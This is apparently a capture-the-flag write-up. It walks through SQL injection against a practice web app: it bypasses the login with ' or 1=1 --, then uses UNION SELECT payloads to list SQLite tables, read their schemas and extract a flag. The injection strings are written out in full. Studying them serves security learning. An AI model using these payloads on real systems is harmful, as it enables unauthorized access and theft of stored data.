

first we need to login. We can try a basic admin login and sql injection into the password.

```
username: admin
password: ' or 1=1 --
```
This lets us into the main welcome page. 

We can see it has a search bar, and 3 outputs, city, address, and phone. 


If you try a union sql command, you notice that only queries with 3 column outputs will be displayed. So we can add filler to get what we want. 

```
' union select 0,1,2; --
```


Since we know its using sqlite, we can use a command that would show the available tables.

```
tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'
```

but since we need it in a union, lets add it

```
' union select 0, 1, tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' --
```


We can see 2 interesting tables, hints and more_table.

So lets try and see what is in the hints table.

```
' union select null,null,sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='hints'--
```

you get this, 

```
CREATE TABLE hints (id INTEGER NOT NULL PRIMARY KEY, info TEXT)
```


So lets query that info column

```
' union select null,null,info from hints--
```


You dont get much but we can do the same thing with the more_table table

```
' union select null,null,sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='more_table'--
```



Alright lets query that flag column then

```
' union select null,null,flag from more_table--
```


And theres the flag


used this as reference: https://www.exploit-db.com/docs/english/41397-injecting-sqlite-database-based-applications.pdf
https://github.com/payloadbox/sql-injection-payload-list
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md